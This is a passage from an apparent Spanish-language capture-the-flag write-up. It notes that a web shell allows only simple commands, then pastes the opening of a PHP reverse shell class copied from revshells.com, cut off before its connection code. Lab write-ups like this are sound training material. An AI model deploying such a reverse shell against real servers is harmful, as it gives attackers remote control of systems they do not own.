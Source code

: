 <img src="/images/writeup-environment/Pasted image 20250619180935.png">
pero no permite ejecutar comandos complejos directamente desde la web shell solo cosas como id o whoami... (aunque de igual modo, nos confirma que este es el camino)


pero si cargamos una reverse shell en php obtenida de https://revshells.com:
```php
<?php
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'sh';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
```
